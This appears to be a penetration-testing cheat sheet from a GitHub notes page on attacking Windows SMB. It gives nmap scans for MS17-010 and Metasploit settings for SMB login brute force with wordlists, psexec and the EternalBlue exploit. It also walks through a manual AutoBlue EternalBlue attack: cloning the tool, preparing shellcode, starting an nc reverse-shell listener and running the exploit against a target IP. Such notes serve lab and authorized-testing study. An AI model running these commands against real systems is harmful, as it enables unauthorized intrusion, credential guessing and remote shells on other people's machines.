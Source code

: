 ```bash
nmap -p 445 -sV -sC <TARGET_IP>

nmap --script smb-vuln-ms17-010 -p 445 <TARGET_IP>
```

#### Metasploit

```bash
# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use auxiliary/scanner/smb/smb_login
use exploit/windows/smb/psexec
use exploit/windows/smb/ms17_010_eternalblue

set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false

set SMBUser <USER>
set SMBPass <PW>
```

```bash
psexec.py <USER>@<TARGET_IP> cmd.exe
```

```bash
## Manual Exploit - AutoBlue
cd
mkdir tools
cd /home/kali/tools
sudo git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git 
cd AutoBlue-MS17-010
pip install -r requirements.txt

cd shellcode
chmod +x shell_prep.sh
./shell_prep.sh
# LHOST = Host Kali Linux IP
# LPORT = Port Kali will listen for the reverse shell

nc -nvlp 1234 # On attacker VM

cd ..
chmod +x eternalblue_exploit7.py
python eternalblue_exploit7.py <TARGET_IP> shellcode/sc_x64.bin
```

#### RDP

```bash
# RDP
nmap -sV <TARGET_IP>
```
